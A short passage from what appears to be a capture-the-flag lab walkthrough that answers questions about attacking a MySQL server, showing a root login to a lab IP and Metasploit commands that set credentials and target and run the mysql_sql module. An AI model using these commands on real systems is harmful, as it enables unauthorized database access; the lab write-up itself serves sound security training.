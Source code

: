 ### **What is the name of the monitor we're welcomed to?**

```
mysql -h 10.10.16.169 -u root -p
```

![](<../../.gitbook/assets/Screenshot from 2020-09-16 18-47-29.png>)

### **What three options do we need to set?**

```
msfconsole -q
msf > search mysql_sql
msf > use 0
msf > options
msf > set PASSWORD password
msf > set RHOSTS 10.10.16.169
msf > set USERNAME root
```

![](<../../.gitbook/assets/Screenshot from 2020-09-16 18-50-36.png>)

### **What result does this give you?**

```
msf > exploit
```

![](<../../.gitbook/assets/Screenshot from 2020-09-16 18-53-53.png>)
